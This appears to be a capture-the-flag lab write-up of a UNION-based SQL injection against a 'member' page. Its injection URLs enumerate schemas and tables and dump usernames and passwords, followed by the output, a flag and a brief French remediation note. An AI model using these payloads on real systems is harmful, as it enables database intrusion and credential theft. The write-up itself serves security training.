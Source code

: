 # Sql injection brute force

SQL injection usually occurs when you ask a user for input, like their username/userid, 
and instead of a name/id, the user gives you an SQL statement that you will unknowingly 
run on your database.

## Notes

```bash
http://172.20.10.9/?page=signin&username=&password=&Login=Login#

```

-------------------------------------------
DATABASES

```bash
http://192.168.1.34/index.php
?page=member
&id=-1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
&Submit=Submit#
```

-------------------------------------------

```
https://172.20.10.9/index.php?page=member&id=1%20AND%201=1&Submit=Submit#
https://172.20.10.9/index.php?page=member&id=1%20UNION%20ALL%20SELECT%20NULL,concat(schema_name)%20FROM%20information_schema.schemata--&Submit=Submit#
```

Output: 

ID: 1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
First name: Barack Hussein
Surname : Obama
ID: 1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
First name: 
Surname : information_schema
ID: 1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
First name: 
Surname : Member_Brute_Force
ID: 1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
First name: 
Surname : Member_Sql_Injection
ID: 1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
First name: 
Surname : Member_guestbook
ID: 1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
First name: 
Surname : Member_images
ID: 1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
First name: 
Surname : Member_survey

```bash
http://192.168.1.34/index.php
?page=member
&id=-1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)
&Submit=Submit 
```

```bash
http://192.168.1.34/index.php
?page=member
&id=1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)--
&Submit=Submit#
```

--------------------------- 
user password

```bash
http://192.168.1.34/

index.php
?page=member
&id=-1 union select username, password from Member_Brute_Force.db_default
&Submit=Submit
```

THE FLAG IS : B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

## Correction

Bloquer les injections SQL, forcer l'utilisation d'un mot de passe fort et bloquer au bout de 3 tentatives par exemple les connexions.

## Info

[sql](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/)<br/>
[sql](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections)<br/>
[sql](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/)<br/>
